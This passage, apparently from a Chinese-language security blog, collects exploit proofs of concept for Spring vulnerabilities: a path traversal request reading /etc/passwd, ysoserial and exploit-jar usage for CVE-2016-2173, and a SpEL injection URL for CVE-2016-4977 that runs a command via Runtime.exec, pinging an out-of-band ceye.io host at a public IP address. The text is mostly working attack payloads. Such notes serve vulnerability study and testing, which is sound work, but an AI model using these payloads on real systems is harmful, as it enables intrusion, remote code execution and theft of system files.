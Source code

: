 访问：

```


1.  `GET /springapp/css/file:/etc/passwd`


```

### [](#CVE-2016-2173-Spring-AMQP中的远程代码执行 "CVE-2016-2173 Spring AMQP中的远程代码执行")CVE-2016-2173 Spring AMQP中的远程代码执行

影响版本：1.0.0至1.5.4

[https://github.com/HaToan/CVE-2016-2173](https://github.com/HaToan/CVE-2016-2173)

使用方式：

```


1.  `- ysoserial-0.0.4-all.jar create payload write and execute a shell`
2.   `+ java -jar ysoserial-0.0.4-all.jar 'library_vul' 'command'`

4.  `- exploit-cve2016-2173.jar : send to App vul`
5.   `+ java -jar exploit-cve2016-2173.jar` 


```

本来想根据配置来搭一个环境处理，结果环境一直搭不起来，构建各种失败，就先放这个利用poc把。

### [](#CVE-2016-4977-SpringSecurityOauth-远程命令执行漏洞 "CVE-2016-4977 SpringSecurityOauth 远程命令执行漏洞")CVE-2016-4977 SpringSecurityOauth 远程命令执行漏洞

影响版本：2.0.0-2.0.9、1.0.0-1.0.5

[https://www.seebug.org/vuldb/ssvid-92474](https://www.seebug.org/vuldb/ssvid-92474)

漏洞利用POC：

```


1.  `http://localhost:8080/oauth/authorize?response_type=token&client_id=acme&redirect_uri=${2334-1}`


```

![image-20200331090423266](https://github-1300513062.cos.ap-shanghai.myqcloud.com/img/20200401131645.png)

执行命令：

```


1.  `http://207.246.79.196:8080/oauth/authorize?response_type=token&client_id=acme&redirect_uri=${T(java.lang.Runtime).getRuntime().exec(%22ping%20xxx.ceye.io%22)}`


```
